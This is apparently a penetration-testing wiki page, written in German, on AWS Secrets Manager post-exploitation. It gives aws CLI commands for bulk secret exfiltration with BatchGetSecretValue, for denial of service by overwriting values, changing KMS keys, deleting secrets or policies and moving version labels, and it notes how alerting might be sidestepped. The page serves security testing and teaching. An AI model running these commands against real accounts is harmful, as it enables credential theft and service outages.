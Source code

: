 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Für weitere Informationen siehe:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

Die **secrets selbst sind sensible Informationen**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md), um zu lernen, wie man sie liest.

### DoS Change Secret Value

Durch Ändern des secret-Werts könnten Sie **ein DoS für alle Systeme verursachen, die von diesem Wert abhängen.**

> [!WARNING]
> Beachten Sie, dass vorherige Werte ebenfalls gespeichert werden, sodass es einfach ist, zum vorherigen Wert zurückzukehren.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Wenn der Angreifer die Berechtigung secretsmanager:UpdateSecret besitzt, kann er das secret so konfigurieren, dass es einen vom Angreifer kontrollierten KMS key verwendet. Dieser KMS key ist zunächst so eingerichtet, dass jeder darauf zugreifen und ihn verwenden kann, weshalb das Aktualisieren des secret mit dem neuen KMS key möglich ist. Wäre der KMS key nicht zugänglich gewesen, hätte das secret nicht aktualisiert werden können.

Nachdem der Angreifer den KMS key für das secret geändert hat, verändert er die Konfiguration seines KMS key so, dass nur noch er darauf zugreifen kann. Dadurch werden spätere Versionen des secret mit dem neuen KMS key verschlüsselt; da kein Zugriff mehr besteht, geht die Möglichkeit verloren, das secret abzurufen.

Es ist wichtig zu beachten, dass diese Unzugänglichkeit nur bei späteren Versionen auftritt, nachdem sich der Inhalt des secret geändert hat, da die aktuelle Version noch mit dem ursprünglichen KMS key verschlüsselt ist.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Die Mindestanzahl an Tagen, um ein secret zu löschen, beträgt 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Es ist möglich, ein Secret wiederherzustellen. Dadurch können Secrets wiederhergestellt werden, die zur Löschung vorgesehen wurden, da die minimale Löschfrist für Secrets 7 Tage und die maximale 30 Tage beträgt. Zusammen mit der Berechtigung secretsmanager:GetSecretValue lässt sich so deren Inhalt abrufen.

Um ein Secret, das sich im Löschvorgang befindet, wiederherzustellen, können Sie folgenden Befehl verwenden:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Diese Aktion erlaubt das Löschen der resource policy, die steuert, wer auf ein secret zugreifen kann. Dies könnte zu einem DoS führen, wenn die resource policy so konfiguriert war, dass sie Zugriff für eine bestimmte Gruppe von Benutzern erlaubt.

Um die resource policy zu löschen:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Die Zustände eines Secrets werden verwendet, um Versionen eines Secrets zu verwalten. AWSCURRENT markiert die aktive Version, die Anwendungen verwenden, AWSPREVIOUS behält die vorherige Version, sodass du bei Bedarf zurückrollen kannst, und AWSPENDING wird im Rotationsprozess verwendet, um eine neue Version vorzubereiten und zu validieren, bevor sie zur aktuellen gemacht wird.

Anwendungen lesen immer die Version mit AWSCURRENT. Wenn jemand dieses Label auf die falsche Version verschiebt, verwenden die Anwendungen ungültige Anmeldeinformationen und können fehlschlagen.

AWSPREVIOUS wird nicht automatisch verwendet. Wenn AWSCURRENT jedoch entfernt oder falsch neu zugewiesen wird, kann es so aussehen, als würde weiterhin die vorherige Version laufen.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Missbrauche die Secrets Manager BatchGetSecretValue API, um bis zu 20 Secrets in einer einzigen Anfrage abzurufen. Dadurch kann die Anzahl der API-Aufrufe im Vergleich zum wiederholten Aufrufen von GetSecretValue für jedes Secret erheblich reduziert werden. Wenn Filter verwendet werden (tags/name), wird außerdem die Berechtigung ListSecrets benötigt. CloudTrail protokolliert weiterhin für jedes im Batch abgerufene Secret ein GetSecretValue-Ereignis.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue für jedes Ziel-Secret
- secretsmanager:ListSecrets wenn --filters verwendet werden
- kms:Decrypt auf den CMKs, die von den Secrets verwendet werden (wenn nicht aws/secretsmanager)

> [!WARNING]
> Beachte, dass die Berechtigung `secretsmanager:BatchGetSecretValue` allein nicht ausreicht, um Secrets abzurufen — du benötigst außerdem `secretsmanager:GetSecretValue` für jedes Secret, das du abrufen möchtest.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate mittels filters (tag key/value oder name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Umgang mit partiellen Ausfällen
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Auswirkungen
- Schnelles “smash-and-grab” vieler Secrets mit weniger API-Aufrufen, wodurch Alarmierungen, die auf Spitzen bei GetSecretValue ausgelegt sind, potenziell umgangen werden.
- In den CloudTrail-Logs erscheint weiterhin pro vom Batch abgerufenes Secret ein GetSecretValue-Ereignis.
{{#include ../../../../banners/hacktricks-training.md}}
